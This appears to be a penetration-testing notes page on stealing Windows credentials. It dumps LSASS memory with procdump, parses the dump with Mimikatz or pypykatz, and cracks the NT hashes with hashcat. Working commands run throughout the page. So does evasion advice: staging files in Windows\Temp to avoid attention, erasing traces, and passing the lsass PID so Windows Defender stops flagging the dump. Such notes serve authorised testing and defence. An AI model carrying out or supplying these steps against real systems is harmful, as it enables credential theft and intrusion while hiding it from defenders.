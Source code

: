 # Procdump & LSASS

## <mark style="color:red;">Procdump</mark>

{% embed url="https://en.hackndo.com/remote-lsass-dump-passwords/" %}

procdump is a tool created and signed by microsoft for sysadmins and developers to dump a running process memory. It attaches to the process, reads its memory and write it into a file.

{% embed url="https://docs.microsoft.com/en-us/sysinternals/downloads/procdump" %}

the syntax is like this:

```
procdump --accepteula -ma <processus> processus_dump.dmp
```

## <mark style="color:red;">Dumping LSASS from Memory</mark>

#### <mark style="color:green;">it’s possible to dump lsass memory on a host, download its dump locally and extract the credentials using Mimikatz.</mark>

{% hint style="info" %}
Procdump can be used to dump lsass, since it is considered as legitimate thus it will not be considered as a malware.To do so, send procdump to the server eather by a meterpreter session or nc or smbclient.py from the impacket suit.
{% endhint %}

#### try to upload it to windows/temp directory to avoid attention Once uploaded, procdump needs to be executed in order to create this lsass dump.

```
procdump.exe -accepteula -ma lsass C:\\Windows\\Temp\\lsass.dmp
```

The dump then needs to be downloaded on the attacker’s host, and traces on the remote host should be erased.

#### Credentials can be retrieved with Mimikatz: the first line loads the memory dump, and the second one retrieves the secrets.but we need a windows system for that.

## <mark style="color:red;">Pypykatz</mark>

This technique is very practical since it does not generate much noise and only legitimate executable is used on the targeted hosts. pypykatz is usefull for situations when we want to run everything on a linux machine:

{% embed url="https://github.com/skelsec/pypykatz" %}

download pypykatz from repo or with pip3

```
pip3 install pypykatz
pip3 install minidump minikerberos aiowinreg msldap winsspi
```

open the dump file:

```
pypykatz lsa minidump lsass.dmp
```

now look for the NT values in the out put. (windows hashed passwords) and copy them into a file we crack the hashes with hashcat then:

```
hashcat -m 1000 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt --status
```

{% hint style="info" %}
dumping lsass is considered as suspicious activity by Windows Defender. When the dumping process is finished, Windows Defender removes the dump after a few seconds. If we have very good connectivity and the dump is not too big, it is possible to download the dump before it’s being deleted.by providing it with lsass PID, Windows Defender no longer complains.We just have to find lsass PID, using the command tasklist for example.
{% endhint %}

```
tasklist /fi "imagename eq lsass.exe"
```

Once we retrieve this PID, we just use it with procdump

```
procdump -accepteula -ma 640 lsass.dmp
```

the dump process above can be dione automatically with spraycatz:

{% embed url="https://github.com/aas-n/spraykatz" %}
